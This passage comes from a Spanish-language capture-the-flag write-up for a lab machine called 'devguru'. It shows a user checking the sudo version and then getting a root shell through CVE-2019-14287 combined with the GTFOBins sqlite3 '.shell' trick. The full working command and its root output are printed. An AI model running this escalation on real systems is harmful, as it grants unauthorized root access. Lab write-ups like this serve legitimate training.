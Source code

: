 Vemos que podemos ejecutar el binario `/usr/bin/sqlite3` como cualquier usuario, menos como **root**; sin embargo, vamos a validar la versión del binario `sudo`:

```bash
frank@devguru:~/gitea-repositories/frank/devguru-website.git$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
frank@devguru:~/gitea-repositories/frank/devguru-website.git$
```

Debido a la versión utilizada, podemos utilizar el CVE CVE-2019-14287 en combinación con la explotación del binario `sqlite3` mediante la página de [GTFOBins](https://gtfobins.github.io/):

```bash
frank@devguru:~/gitea-repositories/frank/devguru-website.git$ sudo -u#-1 /usr/bin/sqlite3 /dev/null '.shell /bin/sh'
# whoami
root
# 
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).